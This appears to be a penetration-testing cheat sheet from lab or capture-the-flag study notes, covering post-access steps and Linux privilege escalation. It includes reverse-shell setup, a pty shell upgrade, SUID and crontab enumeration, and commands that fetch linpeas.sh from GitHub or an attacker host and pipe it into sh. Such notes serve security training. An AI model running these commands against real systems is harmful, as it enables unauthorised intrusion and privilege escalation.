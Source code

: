 Confirm ip address
```sh
hostname -I
```

Add IP and port to the reverse shell builder
https://www.revshells.com/

### Post Access

Check username & ID
```sh
whoami && id
```

Upgrade the shell for something more stable
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Search for `local.txt`
```sh
find / -type f -name "local.txt" 2>/dev/null
```

## Privilege Escalation

### Misconfigurations
If "curl" is present then run linpeas.sh and parse it's contents
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

No curl then download linpeas.sh from the kali host assuming `wget` is present from the /tmp directory due to write permissions then add executable privileges  
```
cd /tmp
wget http://192.168.x.x/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

#### Set SUID on Escalatable Programs
For manual SUID program checking 
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

For SUID programs, check gtfo bins for SUID escalations
https://gtfobins.github.io

![[Pasted image 20231105104203.png]]

#### Sudo Programs in CRONTAB
Check the system level crontab
```
cat /etc/crontab
```
